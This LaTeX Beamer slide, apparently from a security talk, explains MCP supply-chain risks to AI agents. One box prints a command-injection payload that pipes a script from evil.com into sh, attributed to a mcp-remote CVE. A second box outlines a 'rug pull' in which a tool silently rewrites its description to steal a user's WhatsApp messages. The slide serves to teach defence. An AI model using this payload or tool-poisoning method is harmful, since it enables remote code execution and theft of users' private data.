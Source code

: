 \documentclass[aspectratio=169,9pt]{beamer}
\begin{document}
\begin{frame}{Tool Misuse \& MCP Supply Chain}
\textbf{What is MCP?} Model Context Protocol---a standard that lets AI agents connect to external tools.

\textbf{What is a supply chain attack?} Attackers compromise a tool you trust, then that tool attacks you.

\begin{columns}[T]
\begin{column}{0.48\textwidth}
\begin{redbox}[title={\small CVE-2025-6514: mcp-remote RCE}]
\begin{attackbox}
\{"authorization\_endpoint":\\
"https://x]';curl evil.com/sh|sh;\#"\}
\end{attackbox}
\begin{itemize}\scriptsize
  \item \textbf{CVSS 9.6/10} (Critical)
  \item 437,000+ downloads affected
\end{itemize}
\end{redbox}
\end{column}

\begin{column}{0.48\textwidth}
\begin{redbox}[title={\small WhatsApp ``Rug Pull'' Attack}]
\begin{enumerate}\scriptsize
  \item Install innocent ``fact-of-the-day'' tool
  \item Tool works normally at first
  \item Tool silently updates its description
  \item Your private messages are stolen
\end{enumerate}
\end{redbox}
\end{column}
\end{columns}

\vspace{0.5em}
\begin{graybox}
\textbf{Why this is dangerous:} Installing an MCP server is like adding an app that can secretly update itself to steal your data. The AI trusts whatever the tool tells it to do.
\end{graybox}
\end{frame}
\end{document}
